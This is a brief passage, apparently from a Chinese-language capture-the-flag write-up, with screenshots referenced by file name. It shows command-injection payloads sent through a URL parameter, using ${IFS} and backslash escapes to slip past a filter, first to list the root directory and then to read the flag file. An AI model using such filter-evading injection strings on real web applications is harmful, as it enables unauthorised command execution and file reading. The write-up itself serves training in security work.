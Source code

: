 ![image-20240120134036444](image/image-20240120134036444.png)

重新对根目录进行查找

```
?c=ls${IFS}/||
```

发现flag位置

![image-20240120134201671](image/image-20240120134201671.png)

构建命令

```
?c=ta\c${IFS}/fl\ag||
```
